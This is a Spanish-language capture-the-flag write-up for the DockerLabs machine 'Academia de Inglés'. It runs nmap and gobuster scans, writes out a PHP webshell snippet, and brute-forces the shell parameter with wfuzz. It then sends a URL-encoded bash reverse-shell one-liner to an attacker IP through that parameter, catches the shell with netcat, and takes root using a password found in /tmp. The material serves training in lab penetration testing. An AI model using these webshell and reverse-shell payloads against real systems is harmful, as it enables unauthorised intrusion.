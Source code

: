 #Writeups #Easy #DockerLabs 

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general:

```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 16:27 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.06 seconds
```

Parece que solo hay un servicio http, vamos a hacer un escaneo más profundo:

```bash
❯ sudo nmap -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 16:28 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

Se ve que es una web de enseñanza de ingles, vamos a buscar en el navegador a ver como esta la web:

![webIngls.png](assets/webIngls.png)

Una web muy sencilla, al final de la web vemos este mensaje:

![tmpIngls.png](assets/tmpIngls.png)

Usamos gobuster para ver directorios que puedan estar escondidos:

```zsh 
❯ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2 -x php,html,txt,js,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,js,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323354 / 1323360 (100.00%)
===============================================================
Finished
===============================================================

```

La pagina warning tiene este mensaje:

![warningShell.png](assets/warningShell.png)

y la web shell.php da error al entrar, por lo que intuimos del mensaje y del directorio shell, tenemos que añadir en la url un parámetro para que shell.php se ejecute, con esto vamos a usar la herramienta wfuzz ya que la diferencia de gobuster podemos especificar donde queremos que haga la fuerza bruta.

Intuimos que la webshell sería algo así:

```php
<?php	system($_GET['Parametro_que_no_sabemos']); ?>
```

así que ponemos el siguiente comando con WFUZZ:

```zsh
❯ wfuzz -c --hc=404,500 -t 100 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzzs documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                      
=====================================================================

000115401:   200        2 L      2 W        21 Ch       "parameter"                                                                                                  
 /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 159255
Filtered Requests: 159254
Requests/sec.: 0
```

y efectiviwonder, encontramos el parametro, vamos a probarlo en la web:

![parameterDir.png](assets/parameterDir.png)

aunque tenemos esta shell vamos a obtenerla en una temrinal loca para tener un uso mas comodo, para eso vamos a insertar una rev shell one liner de bash encodeada en formato url:

```zsh

bash -c "bash -i >& /dev/tcp/192.168.1.217/1234 0>&1"

#Este comando le asignamos nuestra ip y el puerto de escucha y lo encodeamos a formato URL y obtenemos este:

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.217%2F1234%200%3E%261%22

```

nos ponemos a las escucha con net cat:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```

nos quedaría esta url:

```zsh
http://172.17.0.2/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.217%2F1234%200%3E%261%22
```

y obtenemos acceso:

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 44604
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@7d3bb0410a30:/var/www/html$ 
```

ahora vamos a ver en la carpeta tmp de la raíz por el primer mensaje que obtuvimos en la web:

```zsh
www-data@7d3bb0410a30:/var/www/html$ cd /
cd /
www-data@7d3bb0410a30:/$ cd tmp
cd tmp
www-data@7d3bb0410a30:/tmp$ ls -la
ls -la
total 4
drwxrwxrwt 1 root root  22 May 25 15:11 .
drwxr-xr-x 1 root root 152 May 25 15:11 ..
-rw-r--r-- 1 root root  21 Apr 12 16:07 .secret.txt
www-data@7d3bb0410a30:/tmp$ cat .secret.txt
cat .secret.txt
contraseñaderoot123

```

vaya, tenemos la contraseña de root, por lo que solo nos cambiaremos al ususario root con la contraseña y ya habriamos vulnerado completamente la maquina:

![rootWhereIsMyShell.png](assets/rootWhereIsMyShell.png)
